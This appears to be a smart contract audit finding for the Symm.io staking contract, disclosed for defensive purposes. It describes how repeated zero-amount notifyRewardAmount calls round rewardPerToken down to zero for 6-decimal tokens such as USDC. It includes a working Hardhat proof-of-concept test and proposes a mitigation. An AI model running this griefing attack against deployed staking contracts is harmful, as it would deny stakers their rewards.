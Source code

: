 Raspy Clear Fish

Medium

# An attacker can prevent distribution of low-precision reward tokens to stakers by exploiting frequent reward updates

### Summary

An attacker can manipulate the `rewardPerToken` to `0` for low-precision tokens (such as `USDC` and `USDT`) by abusing frequent reward updates. This can prevent stakers from receiving their eligible rewards, effectively disrupting the reward distribution mechanism.

### Root Cause

[`rewardPerToken()`](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L194-L202) function calculates the reward token amount elapsed from the last update.

```solidity
	function rewardPerToken(address _rewardsToken) public view returns (uint256) {
		if (totalSupply == 0) {
			return rewardState[_rewardsToken].perTokenStored;
		}
		return
			rewardState[_rewardsToken].perTokenStored +
			(((lastTimeRewardApplicable(_rewardsToken) - rewardState[_rewardsToken].lastUpdated) * rewardState[_rewardsToken].rate * 1e18) /
				totalSupply);
	}
```

If `(((lastTimeRewardApplicable(_rewardsToken) - rewardState[_rewardsToken].lastUpdated) * rewardState[_rewardsToken].rate * 1e18) / totalSupply)` becomes `0`, stakes won't receive any rewards.

The high precision difference between `USDC`(or `USDT`) and `SYMM` tokens provides attackers with an opportunity to make the `rewardPerToken` `0`.

### Internal pre-conditions

To exploit this vulnerability, certain conditions should be met:

Let's assume total reward amount is `10,000 USDC` and rewards duration is `DEFAULT_REWARDS_DURATION`(1 weeks).

- The original reward rate is ~`16,534`.
- As Base network generates a new block per 2 seconds, the total supply should be greater than `16,534 * 2 * 1e18 = 33,068e18`. 

### External pre-conditions

*None*

### Attack Path

When the internal per-conditions are met, an attacker can update the rewards state by depositing `1` token or calling `notifyRewardAmount()` with `0 USDC` per block.

If `totalSupply` is much larger than `33,068e18`(e.g., `100,000e18`), the attacker will be able to run attack per 2 or 3 blocks.

### Impact

All stakers won't receive rewards for `USDC` and `USDT`.

### PoC

For test purpose, I defiend the `MockUSDC` contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MockUSDC is ERC20 {
	constructor(string memory name_, string memory symbol_) ERC20(name_, symbol_) {
		_mint(msg.sender, 10_000_000 * 10 ** decimals());
	}

	function decimals() public view override returns (uint8) {
        return 6;
    }
}
```

And the following test case shows how an attacker disrupt the reward mechanism.

```typescript
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers"
import { loadFixture, time } from "@nomicfoundation/hardhat-network-helpers"
import { expect } from "chai"
import { ethers } from "hardhat"
import { e } from "../utils"
import { MockUSDC, Symmio, SymmStaking } from "../typechain-types"
import { initializeFixture, RunContext } from "./Initialize.fixture"

export function symmStakingPoc() {
	let context: RunContext
	let symmStaking: SymmStaking
	let stakingToken: Symmio
	let user1: SignerWithAddress
	let user2: SignerWithAddress
	let admin: SignerWithAddress
	let usdcToken: MockUSDC

	beforeEach(async function () {
		context = await loadFixture(initializeFixture)
		symmStaking = context.symmStaking
		admin = context.signers.admin
		user1 = context.signers.user1
		user2 = context.signers.user2
		stakingToken = context.symmioToken

		// 1. Mint initial balance of 100,000 SYMM (staking token) to user1, user2, and admin
		let initialBalance: bigint = e("100000")
		await stakingToken.connect(admin).mint(user1.address, initialBalance)
		await stakingToken.connect(admin).mint(admin.address, initialBalance)

		// 2. USDC (ERC20) tokens
		const USDC = await ethers.getContractFactory("MockUSDC")

		// USDC Token
		usdcToken = await USDC.deploy("USDC", "USDC")
		await usdcToken.waitForDeployment()
	})

	describe("notifyRewardAmount()", function () {
		// @audit-poc
		it.only("can be prevented by frequent updates", async function () {
			const depositAmount: bigint = e(100000) // user1 deposits 100,000 SYMM
			const rewardAmount = "10000000000" // 10,000 USDC

			// user1 deposits tokens
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)

			// Admin configures and notifies rewards
			await usdcToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await usdcToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdcToken.getAddress()], [rewardAmount])

			for (let i = 0; i < 900; i ++) { // for 1 hour
				// Fast forward time to accumulate some rewards
				await time.increase(4)
				await symmStaking.connect(user2).notifyRewardAmount([await usdcToken.getAddress()], ["0"])
				expect(await symmStaking.rewardPerToken(await usdcToken.getAddress())).to.equal(0)
			}

			await symmStaking.connect(user1).claimRewards()
			expect(await usdcToken.balanceOf(user1)).to.equal("0")
		})
	})
}
```

In the test case, `user1`'s reward for `1 hour` should be `59500000`, but got no rewards.

### Mitigation

A possible mitigation is to convert the low-precision token rewards to an 18-decimal value when computing reward rate. When claiming rewards, convert the earned rewards back to the original decimal precision.


